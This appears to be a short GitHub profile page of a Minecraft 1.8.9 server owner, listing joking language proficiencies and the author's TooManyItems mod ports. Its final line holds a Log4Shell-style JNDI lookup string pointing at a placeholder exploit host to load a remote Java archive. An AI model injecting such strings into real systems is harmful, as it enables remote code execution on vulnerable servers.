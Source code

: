 # Supported languages:
- 100% lang.128.name
- 96% International Phonetic Alphabet
- 95% Autistic Chinese
- 90% Simplified Chinese
- 90% Autistic English
- 75% Traditional Chinese
- 40% Cantonese Chinese
- 10% Spanish

# 1.8.9 Server Owner & Minecraft Content Editor that almost know nothing about Java.

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
https://github.com/HowardZHY/TooManyItems
https://github.com/HowardZHY/TooManyItems-LegacyFabric


Most people thonk I'm at least 30, 40 even 50 years old.


debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
